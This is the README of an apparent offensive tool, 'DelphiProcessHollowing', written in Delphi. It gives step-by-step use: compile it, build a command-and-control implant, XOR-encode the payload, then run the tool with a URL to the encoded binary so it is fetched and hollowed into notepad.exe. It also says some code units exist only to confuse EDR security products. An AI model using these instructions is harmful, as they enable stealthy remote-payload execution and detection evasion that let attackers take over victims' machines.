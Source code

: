 # delphiprocesshollowing
DelphiProcessHollowing

compile with Embarcadero Community 12

Some Units are added only to confuse EDRs

1. compile it (64bit!)
2. create the BINARY implant with your C2
3. XOR you .BIN payload with the "a" char (or modify pascal source to change it!)
4. run RUNINMEMORY.exe url_to_XORED_binary c:\windows\system32\notepad.exe

normally used to run C2 implants

